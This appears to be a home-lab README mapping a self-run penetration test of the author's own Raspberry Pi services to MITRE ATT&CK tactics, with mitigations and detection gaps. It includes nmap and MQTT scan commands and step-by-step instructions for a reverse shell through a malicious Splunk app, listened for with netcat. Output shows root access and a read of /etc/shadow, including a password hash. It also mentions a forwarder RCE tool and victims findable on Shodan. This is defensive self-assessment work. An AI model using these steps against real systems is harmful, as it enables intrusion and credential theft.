

# MITTRE ATTACK analysis

# Iteration 1
This first iteration is based on the status where there were some exposed services.

| Tactics	| Techniques | Sub-tech	| Attack details	| Results	| Mitigations	| Detection	| Issues | Future actions |
|---|---|---|---|---|---|---|---|---|
|Reconnaissance TA0043	| Active Scanning	T1595	| Scanning IP Blocks 0.001	| connected via a mobile phone to get an externl IP ping home.pires.xyz results the 2.80.44.128 sudo nmap -sV | IP is 2.80.44.128 sudo nmap -sV home.rpires.xyz DNS record for 2.80.44.128: bl19-44-128.dsl.telepac.pt PORT     STATE  SERVICE  VERSION 80/tcp   open   http     lighttpd 1.4.69  113/tcp  closed ident 443/tcp  closed https  1883/tcp open mqtt 8000/tcp open   ssl/http Splunkd httpd |	M1056        Pre-compromise  detect and block uncommon data flows| My temporary IP is 87.196.80.59, which can be found at a webservice such as https://whatismyipaddress.com/. Or via cli with: dig +short myip.opendns.com @resolver1.opendns.com 87.196.80.59  There are 2 alerts generated, but the scan is not detected.|	No detection of uncommon data flows. | Create rules to indentify and block port scans.|
|Reconnaissance TA0043	| Active Scanning T1595	| Vulnerability Scanning 0.002	| splunk: https://book.hacktricks.xyz/network-services-pentesting/8089-splunkd Shodan does not find this server. mqtt: : mosquitto_sub -t ""#"" -h home.rpires.xyz 91 13 38.50| Above scan indentifies 3 open ports: 80, 1883 and 8000. Some analysis around the web raises some paths for an attack: - 80/lighttpd 1.4.69, no vulnerabilities found https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=lighttpd - 1883/mqtt, no vulnerabilities found. However a quick test confirms that mqtt is not secured. https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto - 8000/splunk: possibly unhautenticated, confirmed with accessing via a browser to https://home.rpires.xyz:8000/en-US/app/launcher/home. Authentication GUI is restricted to paid licenses. https://book.hacktricks.xyz/network-services-pentesting/8089-splunkd | M1042        Disable or Remove Feature or Program M1056        Pre-compromise activate authentication on splunk activate authentiction and encryption in mqtt service |	DS0029        Network Traffic not detected |	mqtt data is not encrypted neither the data sources are vetted, hence an adversary can listen and inject data. Splunk server may be compromised by a malicious actor by analyzing the logs and installing apps. One specific app may provide reverse shell | enable authentication on splunk enable authentiction and encryption in mqtt service |
|Reconnaissance TA0043	|Active Scanning T1595	|Wordlist Scanning 0.003	|dirbuster and zap scanning	|no major issues raised	|detect and block uncommon data flows such as scans or crawlers M1042        Disable or Remove Feature or Program M1056        Pre-compromise| DS0029        Network Traffic not detected |	none |updated ssh password and pihole password which were simple old passwords, collected in past breaches, confirmed in https://haveibeenpwned.com/|
|Initial Access TA0001	|Exploit Public-Facing Application	|n/a	|userless login to splunk server, then upload a malicious app as described in https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto	|root access to the splunk server machine	|The Spluk server can be protected by updating to the licensed version and thus: M1026        Privileged Account Management M1051        Update Software As last resort, put it in a DMZ: M1030        Network Segmentation Other mitigation is to use a reverse proxy: M1050        Exploit Protection |DS0015        Application Log, not detected DS0029        Network Traffic, not detected| root access to the splunk server machine	|track splunk application log, create reverse proxy access, consider licensing splunk, consider other FOSS tool|

After this initial access, the whole network is at stake, as the adversaty could:
* Persistance TA0003/T1098	Account Manipulation, create a new ssh account
* Lateral Movement TA0008/, all local machines and services could be compromised
  
## Attack steps and demo
* Guide: https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto
* Code: https://github.com/0xjpuff/reverse_shell_splunk  
Step 1: git clone https://github.com/0xjpuff/reverse_shell_splunk  
Step 2: edit the attacker IP (own IP) and specicy a new port  
Step 3: tar and then rename to be packaged as a splunk app  
Step 4: deploy in the target splunk, and then reboot  

Step 5: listen in your computer with:  
sudo nc -nlvp "2224"  
[sudo] password for rpires:   
Listening on 0.0.0.0 2224  
Connection received on 192.168.1.65 57714  
┌──(root💀kali)-[/]  
└─# cat /etc/shadow  
cat /etc/shadow  
root:!:18764:0:99999:7:::  
....  
user:$y$j9T$6Yi8mmJLaFPUnsIb/EUE31$9iJbm1a7TR/8SPry4ilRUqf5dQqcw1mDJlbdjRSGwsC:18764:0:99999:7:::  
splunk:!:19615:0:99999:7:::  
splunkfwd:!:19711:0:99999:7:::  

## Other attack
You can do RCE using the forwarder.
Exploit Overview: An exploit targeting the Splunk Universal Forwarder Agent (UF) allows attackers with the agent password to execute arbitrary code on systems running the agent, potentially compromising an entire network.  
Explained here https://book.hacktricks.xyz/linux-hardening/privilege-escalation/splunk-lpe-and-persistence and code here https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
Haven't tried this yet, however there are may potential victims available in Shodam.

## Mitigations done
### Improved homepage
The homepage was outdated following a previous crash of raspberryPi.
Check it out at http://home.rpires.xyz

### Hide splunk behind a reverse proxy
...  
Try it at https://home.rpires.xyz:8000

### Monitored splunk log
Added a new dashboard for splunk access logs.
Couldn't find the log files, that should be stored in /var/log/splunk/.

## Future mitigations
* Replace Splunk with a FOSS.
* move the webpage to https/443
* add authentication and encryption to MQTT. Need to assess if the ESPs can support
* track spluk users logs in splunk
  
# **Iteration 2**
This iteration is based on the status where the splunk server is protected with a reverse proxy and further detections were added to Splunk.
